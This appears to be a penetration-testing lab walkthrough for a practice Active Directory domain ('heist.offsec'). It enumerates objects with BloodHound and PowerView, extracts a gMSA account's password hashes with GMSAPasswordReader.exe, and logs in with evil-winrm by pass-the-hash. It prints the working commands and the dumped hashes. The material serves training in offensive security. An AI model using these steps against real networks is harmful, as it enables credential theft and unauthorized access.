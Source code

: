 # Enumerating Objects

## Example

In this page we'll cover some enumeration TTP's that we can use to further understand the active directory objects in the domain we're working with.

## Reviewing Bloodhound

Once we load data into bloodhound we can get a map of the users on the domain we want to target, this often gives us valuable information on intersting objects we want to enumerate further

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This shows that the **svc\_apache** service account can read the GMSA password, which means that the **svc\_apache** account is a Group Managed Service Account (gMSA).

<mark style="color:red;">**NOTE:**</mark> Group managed service accounts (gMSAs) are managed domain accounts that you use to help secure services. Password management for that account is handled by the Windows operating system.

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}

### Confirm GMSA is enabled

We can confirm that the user svc\_apache service account has GMSA enabled.

```powershell
PS C:\Users\enox> Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}


DistinguishedName : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
Enabled           : True
Name              : svc_apache
ObjectClass       : msDS-GroupManagedServiceAccount
ObjectGUID        : d40bc264-0c4e-4b86-b3b9-b775995ba303
SamAccountName    : svc_apache$
SID               : S-1-5-21-537427935-490066102-1511301751-1105
UserPrincipalName :

```

The following command provides info about which groups have permissions to retrieve the password for the svc\_apache service account:

```powershell
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames


CN                                         : svc_apache
DNSHostName                                : DC01.heist.offsec
DistinguishedName                          : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
MemberOf                                   : {CN=Remote Management Users,CN=Builtin,DC=heist,DC=offsec}
Created                                    : 7/20/2021 4:23:44 AM
LastLogonDate                              : 9/14/2021 8:27:06 AM
PasswordLastSet                            : 7/20/2021 4:23:44 AM
msDS-ManagedPasswordInterval               : 30
PrincipalsAllowedToDelegateToAccount       : {}
PrincipalsAllowedToRetrieveManagedPassword : {CN=DC01,OU=Domain Controllers,DC=heist,DC=offsec, CN=Web Admins,CN=Users,DC=heist,DC=offsec}
ServicePrincipalNames                      :




```

We see under <mark style="color:yellow;">**PrincipalsAllowedToRetrieveManagedPassword**</mark> we see the group "Web Admins" let's enumerate this group further.

### Review Domain Group "Web Admins" PowerView

Let's find the domain members in "Web Admins" with PowerView

```powershell
PS> Get-DomainGroupMember "Web Admins"



GroupDomain             : heist.offsec
GroupName               : Web Admins
GroupDistinguishedName  : CN=Web Admins,CN=Users,DC=heist,DC=offsec
MemberDomain            : heist.offsec
MemberName              : enox
MemberDistinguishedName : CN=Naqi,CN=Users,DC=heist,DC=offsec
MemberObjectClass       : user
MemberSID               : S-1-5-21-537427935-490066102-1511301751-1103



```

We can see that our current user: "enox" can extract passwords! This means once  we extract we can login to apache\_svc.



### **Extracting the gMSA Password Using GMSAPasswordReader.exe**&#x20;

We can use [GMSAPasswordReader.exe](https://github.com/expl0itabl3/Toolies) to retrieve the gMSA password with our current user.

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_apache'

Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 526C435B8E4CF11F447D6EF7152665BB
[*]       aes128_cts_hmac_sha1 : 19565C12FDE19AD1033BA3BBD56DD230
[*]       aes256_cts_hmac_sha1 : 43F6DECE6269A588687ACFF41F633A0F7AA9C3FBC7FEAB8BE6981854C19FE817
[*]       des_cbc_md5          : 4AEA91DCEF918F29

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 83AC7FECFBF44780E3AAF5D04DD368A5
[*]       aes128_cts_hmac_sha1 : 08E643C43F775FAC782EDBB04DD40541
[*]       aes256_cts_hmac_sha1 : 588C2BB865E771ECAADCB48ECCF4BCBCD421BF329B0133A213C83086F1A2E3D7
[*]       des_cbc_md5          : 9E340723700454E9

```

<mark style="color:red;">NOTE:</mark> rc4\_hmac is the same as the nt hash.



### Login to svc\_apache with credentials

DONT FORGET THE $ IN THE USERNAME! ANYTIME YOU SEE THIS YOU MUST ADD IT!

```shell-session
evil-winrm -i 192.168.191.165 -u svc_apache$ -H 83AC7FECFBF44780E3AAF5D04DD368A5 
```
